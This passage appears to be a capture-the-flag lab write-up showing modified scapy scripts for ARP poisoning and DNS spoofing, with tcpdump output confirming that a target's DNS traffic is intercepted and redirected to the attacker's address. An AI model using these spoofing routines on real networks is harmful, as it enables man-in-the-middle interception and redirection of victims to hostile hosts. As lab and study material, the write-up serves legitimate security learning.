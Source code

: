 ```
scripts/arp_resp.py
.
Sent 1 packets.
```

[ARP script](arp.py)
### Modified values for ARP poisoning
```
def handle_arp_packets(packet):
    # if arp request, then we need to fill this out to send back our mac as the response
    if ARP in packet and packet[ARP].op == 1:
        ether_resp = Ether(dst="4c:24:57:ab:ed:84", type=0x806, src="02:42:0a:06:00:02")
        arp_response = ARP(pdst="10.6.6.35")
        arp_response.op = 2
        arp_response.plen = 4
        arp_response.hwlen = 6
        arp_response.ptype = 0x800
        arp_response.hwtype = 0x1
        arp_response.hwsrc = "02:42:0a:06:00:02"
        arp_response.psrc = "10.6.6.53"
        arp_response.hwdst = "4c:24:57:ab:ed:84"
        arp_response.pdst = "10.6.6.35"
        response = ether_resp/arp_response
        sendp(response, iface="eth0")
```

## DNS poisoning
Now we verify that the ARP poisoning is taking place and the type of traffic the target machine is sending with `tcpdump`.
```
guest@29847c69ad6a:~$ tcpdump -n 
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on eth0, link-type EN10MB (Ethernet), capture size 262144 bytes
04:16:15.602338 ARP, Request who-has 10.6.6.53 tell 10.6.6.35, length 28
04:16:15.618236 ARP, Reply 10.6.6.53 is-at 02:42:0a:06:00:02, length 28
04:16:15.646731 IP 10.6.6.35.22953 > 10.6.6.53.53: 0+ A? ftp.osuosl.org. (32)
```
Now we modify the DNS poisoning script with the information we already know so it respond to all DNS requests giving our own machin IP and MAC addresses as destination.

[DNS script](dns.py)
### Modified values for DNS poisoning
```ipaddr_we_arp_spoofed = "10.6.6.53"
def handle_dns_request(packet):
    # Need to change mac addresses, Ip Addresses, and ports below.
    # We also need
    dstport=packet[IP][UDP].sport
    srcport=packet[IP][UDP].dport
    dstmac=packet[Ether].src
    srcmac=packet[Ether].dst
    eth = Ether(src=srcmac, dst=dstmac)   # need to replace mac addresses
    ip  = IP(dst="10.6.6.35", src=ipaddr_we_arp_spoofed)             # need to replace IP addresses
    udp = UDP(dport=dstport, sport=srcport)                             # need to replace ports
    dns = DNS(
        # MISSING DNS RESPONSE LAYER VALUES
        id=packet[DNS].id, qr=1, opcode=0,
        aa=1, tc=0, rd=1, ra=1, z=0, ad=0, rcode=0,
        qdcount=1, ancount=1, nscount=0, arcount=0, 
        qd=DNSQR(qname=packet[DNS].qd.qname, qtype='A', qclass=1),
        an=DNSRR(rrname=packet[DNS].qd.qname, type='A', rclass=1,
        ttl=600, rdata="10.6.0.2")
    )
    dns_response = eth / ip / udp / dns
```
